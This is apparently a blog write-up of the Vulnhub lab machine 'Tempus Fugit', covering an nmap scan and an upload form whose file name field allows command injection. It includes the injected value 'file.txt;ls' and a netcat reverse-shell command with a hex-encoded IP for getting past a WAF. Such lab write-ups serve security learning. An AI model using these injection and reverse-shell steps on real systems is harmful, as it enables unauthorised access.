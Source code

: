 ```yaml
---
layout:     post
title:      "Vulnhub - Tempus Fugit"
subtitle:   "Write-Up"
date:       2019-08-26
author:     "d4mianwayne"
permalink: /:title/
category: Vulnhub
---
```



Writeup for [Tempus Fugit](https://www.vulnhub.com/entry/tempus-fugit-1,346/) by [4ndr34z](https://twitter.com/4ndr34z) and [DCUA7](https://twitter.com/DCAU7).

# Foreword

This machine had a internal network/machine that was our real target and it teaches you about how reconnaisance can often lead you to the vulnerable machine in a network.

# Nmap

Starting off with nmap, scanning with `nmap -sV -sC -A -p- 192.168.43.224` which shows that we have only one port open i.e. 80 aka HTTP. So, let's check it.

![](/img/TempusFugit/nmap.png)

# HTTP Enumeration 

Going to the HTTP port gives a good looking UI having a upload feature which will be saved to their internal FTP network of the machine. Now, let's try to upload something which might lead us to something nasty. But as a **sanity check** I tried to upload `.php` file but it only accepts `rtf` and `txt` files, since it wasn't a windows machine any kind of `rtf` related exploit would be pointless.
Next I tried to intercept the traffic via Burp Suite, now as we can see the contents which was being rendered and the file name field, so as a **sanity check** again, I added `file.txt;ls` to check it's listing the files from that folder or not, at this point [DCAU7](https://twitter.com/DCAU7) helped me. So, it was possible to do a command injection from the file field parameter, the command `nc < hexencodedIP port -e sh>` pointed out by the [DCAU7](https://twitter.com/DCAU7), probably WAF was preventing the standdard IP from being executed in the same order it was supposed to.
